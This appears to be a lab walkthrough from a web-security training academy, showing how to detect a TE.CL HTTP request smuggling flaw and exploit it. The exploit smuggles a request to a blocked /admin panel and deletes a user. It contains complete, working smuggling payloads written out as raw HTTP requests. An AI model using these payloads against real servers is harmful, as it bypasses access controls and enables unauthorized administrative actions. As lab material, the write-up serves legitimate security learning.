

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.


# Solution
## Analysis
### Confirming that /admin path exists
||
|:--:| 
| *Path /admin exists and is blocked* |

### Determining what the front-end is using
HTTP status code `400 Bad Request` idicates that front-end or back-end is using `Transfer-Encoding` header.
```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using TE* |

### Determining what the back-end is using
`Time out` confirms `TE.CL` vulnerability. Front-end is using `Transfer-Encoding` header. Back-end is using `Content-Length` header.

```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

||
|:--:| 
| *Front-end is using TE* |
| *Back-end is using CL* |

## Exploitation
First request poisoned the back-end. Part of the second request was added to the end of the previous request  - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and second `Content-Length` value from payload.
```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
||
|:--:| 
| *Request was smuggled but Host header value was wrong* |
||
| *Request was smuggled successfuly* |
||
| *Deletion of user Carlos* |